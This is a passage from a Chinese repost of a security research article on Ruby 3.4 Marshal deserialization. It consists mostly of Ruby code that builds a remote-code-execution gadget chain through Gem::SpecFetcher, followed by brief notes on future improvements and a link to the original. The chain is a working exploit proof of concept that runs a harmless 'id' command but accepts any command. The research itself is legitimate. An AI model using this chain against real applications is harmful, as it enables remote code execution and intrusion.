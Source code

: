 ```
end

def create_rce_gadget_chain(command_to_execute)
  exec_gadget = command_gadget(command_to_execute)

  return Marshal.dump([Gem::SpecFetcher, to_s_wrapper(exec_gadget)])
end

url = "rubygems.org/quick/Marshal.4.8/bundler-2.2.27.gemspec.rz"
call_url_gadget = call_url_and_create_folder(url)

exec_gadget = command_gadget("id > /tmp/marshal-poc")
rce_gadget_chain = Marshal.dump(
  [
    Gem::SpecFetcher,
    to_s_wrapper(call_url_gadget),
    to_s_wrapper(exec_gadget)
  ]
)

puts rce_gadget_chain.inspect
```  
  
  
**# 未来改进**  
  
剩下的最大改进是不再使用小工具链中的popen接收器Gem::Source::Git。实现这一点有望意味着小工具链不再发出出站网络请求或修改文件系统。  
  
**原文地址：**  
https://nastystereo.com/security/ruby-3.4-deserialization.html  
  
  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif "")  
  
来阅读本文  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif "")  
  
**点它，分享点赞在看都在这里**  
  
